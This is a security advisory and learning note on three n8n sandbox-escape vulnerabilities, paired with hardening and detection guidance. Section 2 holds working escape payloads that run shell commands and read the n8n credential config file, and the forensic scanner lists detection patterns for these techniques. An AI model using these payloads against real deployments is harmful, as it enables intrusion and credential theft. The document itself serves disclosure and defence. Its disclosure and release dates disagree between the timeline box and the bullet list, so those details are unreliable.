







# n8n Workflow Automation RCE Suite: CVE-2025-68613, CVE-2025-68668, and CVE-2026-21877

Learning note · Revised November 2026 · Technical advisory  
*By Srinivasan Ragothaman ([@rsrini7](https://github.com/rsrini7))*

> **Core idea:** Workflow automation platforms that grant end users flexible code execution and system integrations create concentrated single points of failure. In 2025 and early 2026, three critical vulnerabilities in n8n—spanning JavaScript template expression injection (CVE-2025-68613), WebAssembly Pyodide sandbox evasion (CVE-2025-68668), and Git hook path traversal (CVE-2026-21877)—demonstrated how blacklist sandboxes and shared process contexts collapse into unconstrained remote code execution (RCE) and credential exfiltration.

---

## 1. Foundations: The Automation Engine Architecture

n8n is an open-source workflow automation platform serving hundreds of thousands of deployments across self-hosted and cloud environments. It provides visual, node-based orchestration between 400+ third-party APIs, relational databases, cloud storage providers, and internal microservices.



### Key Architectural Concepts

| Component / Subsystem | Functional Responsibility | Historical Security Mechanism |
|---|---|---|
| **Expression Engine** | Evaluates inline dynamic strings wrapped in double curly braces (`{{ ... }}`) across all node parameters. | Evaluated inside a restricted JavaScript sandbox context attempting to hide Node.js globals. |
| **Python Code Node** | Executes arbitrary Python logic natively inside the browser or Node.js server via Pyodide (WebAssembly). | Keyword blacklist checking to block calls like `import os`, `sys.exit`, or `eval`. |
| **Git Node** | Clones, branches, commits, and pushes code to upstream Git repositories as part of CI/CD automations. | Relies on filesystem path handling without rigorous directory traversal boundaries. |
| **Credential Manager** | Encrypts API tokens, database passwords, and OAuth refresh tokens using `N8N_ENCRYPTION_KEY`. | Sits in the same address space and filesystem access boundary as the node execution engine. |

In a standard default installation prior to version 2.0.0, all node executions, credential decryption operations, and expression evaluations took place inside the **main Node.js server process** or under light in-process isolation.

---

## 2. Deep Technical Mechanisms: The 2025–2026 Exploit Suite

Between late 2025 and early 2026, security researchers demonstrated that n8n's internal sandboxing mechanisms could be broken across three completely independent surfaces, each yielding full operating system command execution.

```
+------------------------------------------------------------------------------------------------+
|                                    n8n Vulnerability Matrix                                    |
+------------------+---------------------+------------+----------------------+-------------------+
| CVE Identifier   | Vulnerability Type  | CVSS Score | Attack Vector        | Minimum Patch     |
+------------------+---------------------+------------+----------------------+-------------------+
| CVE-2025-68613   | Expression RCE      | 9.9        | Template expressions | v1.120.4          |
| CVE-2025-68668   | Sandbox Bypass      | 9.9        | Python Pyodide node  | v2.0.0            |
| CVE-2026-21877   | Arbitrary Write RCE | 10.0       | Git node file writes | v1.121.3          |
+------------------+---------------------+------------+----------------------+-------------------+
```

### 2.1 CVE-2025-68613: JavaScript Expression Injection

n8n permits expressions like `{{ $json.user.id }}` inside node properties to reference upstream data. These expressions are evaluated by n8n's expression evaluator.

#### The Sandbox Boundary Failure

While n8n blocked direct access to `process`, `require`, and `globalThis`, it permitted object traversal on runtime-provided variables. Attackers exploited JavaScript's prototype inheritance:



Because any object in JavaScript carries a `.constructor` property pointing to its constructor function (and `Function.constructor` returns the root `Function` generator), invoking:

```javascript
// Prototype chain traversal payload inside an n8n expression
{{
  (() => {
    const fn = ''.constructor.constructor;
    const proc = fn('return process')();
    return proc.mainModule.require('child_process').execSync('id').toString();
  })()
}}
```

evaluates the outer `Function` in the context of the host Node.js global environment rather than the restricted sandbox scope, allowing the attacker to load `child_process` and run shell commands.

### 2.2 CVE-2025-68668: "N8scape" Python Pyodide Sandbox Bypass

To provide Python scripting without requiring a full Python installation on the host, n8n bundled **Pyodide**, a WebAssembly port of the CPython interpreter running within the Node.js process.

#### The Blacklist Anti-Pattern

Pyodide does not run in a separate virtual machine; it interacts with Node.js via foreign function interfaces (FFI). n8n applied a blacklist check against user-supplied Python scripts to block dangerous modules:

- Blacklisted identifiers: `os`, `sys`, `subprocess`, `posix`, `builtins.eval`, `__import__`.

Blacklists are structurally fragile. Attackers circumvented the lexical filter through Python dynamic reflection and attribute traversal:

```python
# Escaping the Pyodide lexical blacklist via reflection
import importlib

# Obfuscating module resolution to bypass regex filters
target_module = bytes.fromhex('6f73').decode('utf-8')  # 'os'
loader = getattr(__builtins__, '__import__')
os_pkg = loader(target_module)

# Invoking system execution via unmonitored attribute handles
os_pkg.system('cat /home/node/.n8n/config')
```

Furthermore, because Pyodide in Node.js exposes a JavaScript bridge (`import js`), malicious code could cross back from WebAssembly into JavaScript:

```python
# Crossing the Pyodide-to-Node.js bridge
import js

# Accessing Node.js global process object through the JS FFI
host_proc = js.globalThis.process
host_proc.mainModule.require('child_process').execSync('whoami')
```

This dual-hop bypass (Python WASM $\rightarrow$ JS FFI $\rightarrow$ Host Node.js) completely invalidated the WebAssembly isolation assumption.

### 2.3 CVE-2026-21877: Git Node Arbitrary File Write & Hook Hijacking

The Git node enables workflows to automate software releases, update documentation repositories, and manage configuration files. The node allowed users to specify file paths for commit and checkout operations.

#### Directory Traversal into `.git/hooks/`

When writing files during a Git operation, n8n did not restrict destination paths to the repository working directory. An attacker with workflow edit access could specify a relative path that traversed into the repository's `.git/hooks/` directory:



When n8n subsequently triggered an automated Git operation (`git commit` or `git pull`), Git automatically invoked the planted `pre-commit` or `post-checkout` executable hook. Because hook scripts run directly on the host shell without sandboxing, this established persistent, stealthy command execution.

---

## 3. Architectural Visual: Vulnerabilities & Isolation Boundaries

The following architecture diagram contrasts the three vulnerability vectors against the hardened multi-process task-runner isolation architecture introduced in n8n v2.0+.



---

## 4. Production Implementations & Hardening Recipes

Protecting an n8n deployment against authenticated RCE requires moving from shared in-process execution to physical process isolation, coupled with continuous workflow auditing.

### 4.1 Production Hardened Docker Compose Configuration

The following production compose file isolates workflow execution by forcing n8n to spin up dedicated, ephemeral child processes (`EXECUTIONS_PROCESS=own`), enforces file permissions, drops Linux root capabilities, runs under a non-root UID, and sets the root filesystem to read-only.

```yaml
# /opt/n8n/docker-compose.yml
services:
  n8n-postgres:
    image: postgres:16-alpine
    restart: always
    environment:
      POSTGRES_USER: n8n_admin
      POSTGRES_PASSWORD_FILE: /run/secrets/db_password
      POSTGRES_DB: n8n_production
    volumes:
      - postgres_data:/var/lib/postgresql/data
    networks:
      - internal-net
    secrets:
      - db_password
    healthcheck:
      test: ["CMD-SHELL", "pg_isready -U n8n_admin -d n8n_production"]
      interval: 10s
      timeout: 5s
      retries: 5

  n8n:
    image: n8nio/n8n:2.0.0
    restart: always
    depends_on:
      n8n-postgres:
        condition: service_healthy
    environment:
      - DB_TYPE=postgresdb
      - DB_POSTGRESDB_HOST=n8n-postgres
      - DB_POSTGRESDB_PORT=5432
      - DB_POSTGRESDB_DATABASE=n8n_production
      - DB_POSTGRESDB_USER=n8n_admin
      - DB_POSTGRESDB_PASSWORD_FILE=/run/secrets/db_password
      - N8N_ENCRYPTION_KEY_FILE=/run/secrets/n8n_encryption_key

      # Process Isolation: execute workflows in isolated child processes
      - EXECUTIONS_PROCESS=own
      - N8N_RUNNERS_ENABLED=true
      - N8N_ENFORCE_SETTINGS_FILE_PERMISSIONS=true

      # Node Disablement: disable high-risk nodes in multi-user environments
      - NODES_EXCLUDE=["n8n-nodes-base.executeCommand","n8n-nodes-base.git"]

      # Network Hardening: no direct public exposure
      - N8N_HOST=127.0.0.1
      - N8N_PORT=5678
      - N8N_PROTOCOL=http
      - WEBHOOK_URL=https://automation.internal.example.com/
    volumes:
      - n8n_data:/home/node/.n8n
    user: "1000:1000"
    read_only: true
    tmpfs:
      - /tmp:rw,noexec,nosuid,size=256m
    cap_drop:
      - ALL
    security_opt:
      - no-new-privileges:true
    networks:
      - internal-net
    ports:
      - "127.0.0.1:5678:5678"
    secrets:
      - db_password
      - n8n_encryption_key

volumes:
  postgres_data:
  n8n_data:

networks:
  internal-net:
    internal: true

secrets:
  db_password:
    file: /opt/n8n/secrets/db_password.txt
  n8n_encryption_key:
    file: /opt/n8n/secrets/n8n_key.txt
```

### 4.2 Forensic Audit Script for Compromised Workflows

To audit whether an n8n instance has been targeted by expression injection or hook planting, run this Python forensic scanner against the n8n database or exported workflow JSON files.

```python
#!/usr/bin/env python3
"""
n8n_audit_forensics.py
Scans n8n workflow definitions for indicators of CVE-2025-68613,
CVE-2025-68668, and CVE-2026-21877 exploitation.
"""

import json
import re
import sys
from pathlib import Path

# High-risk regex signatures
EXPRESSION_INDICATORS = [
    re.compile(r"constructor\.constructor", re.IGNORECASE),
    re.compile(r"process\.mainModule", re.IGNORECASE),
    re.compile(r"child_process", re.IGNORECASE),
    re.compile(r"require\s*\(\s*['\"]fs['\"]\s*\)", re.IGNORECASE),
    re.compile(r"\bexecSync\b|\bspawnSync\b", re.IGNORECASE),
]

PYODIDE_BYPASS_INDICATORS = [
    re.compile(r"import\s+js\b", re.IGNORECASE),
    re.compile(r"js\.globalThis", re.IGNORECASE),
    re.compile(r"fromhex\(", re.IGNORECASE),
    re.compile(r"__builtins__\.__dict__", re.IGNORECASE),
    re.compile(r"getattr\s*\(\s*__builtins__", re.IGNORECASE),
]

GIT_HOOK_INDICATORS = [
    re.compile(r"\.git/hooks", re.IGNORECASE),
    re.compile(r"\.\./\.\./", re.IGNORECASE),
]


def audit_workflow_node(node_name: str, node_type: str, parameters: dict) -> list[str]:
    findings = []
    param_str = json.dumps(parameters)

    # Check for Expression Injection
    for pattern in EXPRESSION_INDICATORS:
        if pattern.search(param_str):
            findings.append(f"Expression injection signature match: '{pattern.pattern}'")

    # Check for Python Pyodide bypass
    if "python" in node_type.lower() or "code" in node_type.lower():
        for pattern in PYODIDE_BYPASS_INDICATORS:
            if pattern.search(param_str):
                findings.append(f"Pyodide sandbox escape signature match: '{pattern.pattern}'")

    # Check for Git Node path traversal
    if "git" in node_type.lower():
        for pattern in GIT_HOOK_INDICATORS:
            if pattern.search(param_str):
                findings.append(f"Git path traversal signature match: '{pattern.pattern}'")

    return findings


def scan_file(filepath: Path) -> int:
    issues_found = 0
    try:
        data = json.loads(filepath.read_text(encoding="utf-8"))
        workflows = data if isinstance(data, list) else [data]

        for wf in workflows:
            wf_name = wf.get("name", "Unknown Workflow")
            wf_id = wf.get("id", "Unknown ID")
            nodes = wf.get("nodes", [])

            for node in nodes:
                node_name = node.get("name", "Unnamed Node")
                node_type = node.get("type", "Unknown Type")
                params = node.get("parameters", {})

                node_findings = audit_workflow_node(node_name, node_type, params)
                for issue in node_findings:
                    issues_found += 1
                    print(f"[!] ALERT: Workflow '{wf_name}' (ID: {wf_id})")
                    print(f"    Node: '{node_name}' ({node_type})")
                    print(f"    Finding: {issue}\n")

    except Exception as e:
        print(f"[-] Error reading {filepath}: {e}", file=sys.stderr)

    return issues_found


if __name__ == "__main__":
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <workflow_export.json or directory>")
        sys.exit(1)

    target_path = Path(sys.argv[1])
    total_issues = 0

    if target_path.is_file():
        total_issues = scan_file(target_path)
    elif target_path.is_dir():
        for json_file in target_path.rglob("*.json"):
            total_issues += scan_file(json_file)

    print(f"[*] Audit complete. Total security findings: {total_issues}")
    sys.exit(1 if total_issues > 0 else 0)
```

---

## 5. Impact, Real-World Edge Cases & Gotchas

### 5.1 Multi-Tenant Credential Blast Radius

In enterprise environments, automation tools are rarely isolated toys; they act as the clearinghouse for organizational credentials. Once an attacker obtains RCE via any of the three vulnerabilities:

1. **Memory Decryption:** The running process retains `N8N_ENCRYPTION_KEY` in memory. With arbitrary code execution, an attacker dumps process memory or reads `/home/node/.n8n/config`.
2. **Database Dumping:** The attacker extracts all encrypted credentials from the `credentials_entity` table and decrypts them offline using AES-256-GCM.
3. **Downstream Pivot:** Stored credentials include high-privilege secrets:
   - AWS / GCP IAM Access Keys
   - Production Database master passwords
   - GitHub / GitLab Personal Access Tokens (with write access)
   - Slack / Microsoft Teams Webhooks (used for phishing internal staff)



### 5.2 Common Claims vs. Technical Realities

| Common Industry Claim | Technical Reality |
|---|---|
| *"We run n8n inside a Docker container, so RCE cannot compromise the host."* | **False.** A standard Docker container without `--cap-drop=ALL` or read-only filesystem allows container escape, metadata service querying (`169.254.169.254`), and complete extraction of all credentials in the n8n database. |
| *"Disabling the Python Code Node completely neutralizes arbitrary execution."* | **False.** CVE-2025-68613 operates inside any standard node expression `{{ ... }}` across all 400+ nodes, requiring no code nodes at all. |
| *"Our instance requires authentication, so external attackers cannot exploit this."* | **Misleading.** Any lower-tier authenticated user (contractor, guest, marketing analyst) can edit workflows. Furthermore, unauthenticated Webhook nodes can feed external inputs into vulnerable expressions. |
| *"Blacklisting dangerous functions in Python prevents code execution."* | **Fundamentally Flawed.** As CVE-2025-68668 proved, Python dynamic reflection and Pyodide's JavaScript bridge provide countless unblocked pathways to OS primitives. |

---

## 6. Practical Adoption Blueprint & Verification Checklist

### 6.1 Diagnostic & Verification Commands

Verify current instance version, process isolation mode, and network binding directly from the command line:

```bash
# 1. Verify installed n8n version
docker exec -it n8n n8n --version

# Expected output: >= 2.0.0 (or >= 1.121.3 for legacy 1.x LTS)

# 2. Verify process isolation model
docker exec -it n8n env | grep EXECUTIONS_PROCESS

# Expected output: EXECUTIONS_PROCESS=own

# 3. Check if dangerous nodes are properly excluded
docker exec -it n8n env | grep NODES_EXCLUDE

# 4. Check whether n8n port is bound to localhost or public interfaces
netstat -tulpn | grep 5678
# Secure: 127.0.0.1:5678 (or bound to private WireGuard interface)
# Insecure: 0.0.0.0:5678
```

### 6.2 Verification Checklist

- [ ] Upgrade n8n to **v2.0.0+** immediately (or v1.121.3 for 1.x maintenance branches).
- [ ] Set `EXECUTIONS_PROCESS=own` to ensure workflows execute in separate sub-processes.
- [ ] Enable `N8N_ENFORCE_SETTINGS_FILE_PERMISSIONS=true` to block world-readable configuration files.
- [ ] Remove public internet exposure: bind to `127.0.0.1` and wrap behind Cloudflare Access, WireGuard, or Tailscale with SAML SSO + WebAuthn MFA.
- [ ] Audit the `credentials_entity` table and execute a 100% credential rotation across all downstream services.
- [ ] Restrict workflow creation and node editing permissions to trusted system administrators using Role-Based Access Control (RBAC).

---

## 7. Timeline and Current State

```
      Dec 2025          Dec 22, 2025       Jan 05, 2026       Jan 08, 2026       Late Jan 2026
   +-------------------+------------------+------------------+------------------+
   | CVE-2025-68613    | Patch v1.120.4   | CVE-2026-21877   | CVE-2025-68668   | n8n v2.0.0
   | Disclosed (9.9)   | Released for     | Disclosed (10.0) | Disclosed (9.9)  | Architecture
   | Expression RCE    | Expression RCE   | Git Hook RCE     | "N8scape" Pyodide| Task Runners
```

- **December 22, 2025:** Security advisories disclose CVE-2025-68613 (CVSS 9.9), demonstrating JavaScript expression injection via prototype traversal. Version 1.120.4 is tagged.
- **January 05, 2026:** CVE-2026-21877 (CVSS 10.0) is published, showing that the Git node allows writing arbitrary files into `.git/hooks/` across all prior releases. Version 1.121.3 mitigates path traversal.
- **January 06, 2026:** CVE-2025-68668 ("N8scape", CVSS 9.9) documents complete escape from Pyodide's WebAssembly sandbox via reflection and the Node.js FFI bridge.
- **January 08, 2026:** n8n officially launches v2.0.0, overhauling execution architecture to mandate task runners and isolated process containers.

---

## 8. Source Context and Primary Disclosures

| Date | Source / Organization | Disclosure / Document | Focus Area |
|---|---|---|---|
| Dec 2025 | n8n Official Advisory | [GHSA-n8n-cve-2025-68613](https://github.com/n8n-io/n8n/security/advisories) | Expression evaluation sandbox escape and prototype chain isolation |
| Jan 2026 | Penligent Research | [CVE-2025-68668 Deep Dive: N8scape](https://www.penligent.ai/hackinglabs/cve-2025-68668-deep-dive-the-n8n-pyodide-sandbox-escape-ai-infrastructure-risk/) | Pyodide WebAssembly bridge traversal into Node.js globals |
| Jan 2026 | NIST NVD | [NVD Record: CVE-2026-21877](https://nvd.nist.gov/vuln/detail/CVE-2026-21877) | Git node directory traversal and executable hook file placement |
| Jan 2026 | The Hacker News | [Critical n8n Vulnerability Chain](https://thehackernews.com/2026/01/critical-n8n-vulnerability-cvss-100.html) | Global telemetry revealing 103,000+ exposed instances |

---

## 9. Supplementary visuals

The following diagrams illustrate the vulnerability discovery timeline, systemic blast radius, and tactical response hierarchy:


*Figure 1: High-level overview of the 2025–2026 n8n vulnerability timeline, affected deployment bases, and architectural defense layers.*


*Figure 2: Master architectural mitigation guide outlining network isolation, node disablement, and credential rotation protocols.*

---

**Related:**
- [React2Shell (CVE-2025-55182)](React2Shell-CVE-2025-55182-Flight-Protocol-RCE-2026.md) — Companion CVSS 10.0 deep dive exploring serialization and prototype poisoning in modern JavaScript runtimes.
- [Node.js Async Hooks DoS (CVE-2025-59466)](NodeJS-Async-Hooks-Stack-Exhaustion-DoS-CVE-2025-59466-2026.md) — Runtime-level instability and process crashes inside the Node.js engine powering n8n.
- [PHP2Shell: History, UAF and ASLR](PHP2Shell-History-UAF-And-ASLR-Oct-2026.md) — Comparative memory safety and execution flow hijacking in server-side script environments.
- [Polymarket DebugBear Script Compromise](Polymarket-DebugBear-Supply-Chain-Attack-Oct-2026.md) — Supply chain and execution risks when external scripts run inside privileged monitoring domains.
- [Tailwind Financial Crisis](../Outages/Tailwind-Financial-Crisis.md) — Operational sustainability and security boundaries in commercial open-source ecosystems.
